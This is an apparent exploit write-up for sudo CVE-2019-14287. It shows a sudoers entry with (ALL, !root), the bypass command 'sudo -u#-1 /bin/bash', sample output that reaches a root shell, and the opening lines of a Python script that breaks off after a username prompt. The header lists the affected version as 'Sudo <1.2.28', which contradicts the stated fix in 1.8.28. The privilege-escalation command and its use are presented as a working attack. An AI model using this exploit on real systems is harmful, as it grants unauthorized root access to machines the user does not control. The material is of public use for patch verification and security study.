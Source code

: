 ```python
# Exploit Title : sudo 1.8.27 - Security Bypass
# Date : 2019-10-15
# Original Author: Joe Vennix
# Exploit Author : Mohin Paramasivam (Shad0wQu35t)
# Version : Sudo <1.2.28
# Tested on Linux
# Credit : Joe Vennix from Apple Information Security found and analyzed the bug
# Fix : The bug is fixed in sudo 1.8.28
# CVE : 2019-14287

'''Check for the user sudo permissions

sudo -l 

User hacker may run the following commands on kali:
    (ALL, !root) /bin/bash


So user hacker can't run /bin/bash as root (!root)


User hacker sudo privilege in /etc/sudoers

# User privilege specification
root    ALL=(ALL:ALL) ALL

hacker ALL=(ALL,!root) /bin/bash


With ALL specified, user hacker can run the binary /bin/bash as any user

EXPLOIT: 

sudo -u#-1 /bin/bash

Example : 

hacker@kali:~$ sudo -u#-1 /bin/bash
root@kali:/home/hacker# id
uid=0(root) gid=1000(hacker) groups=1000(hacker)
root@kali:/home/hacker#

Description :
Sudo doesn't check for the existence of the specified user id and executes the with arbitrary user id with the sudo priv
-u#-1 returns as 0 which is root's id

and /bin/bash is executed with root permission
Proof of Concept Code :

How to use :
python3 sudo_exploit.py

'''


#!/usr/bin/python3

import os

#Get current username

username = input("Enter current username :")
```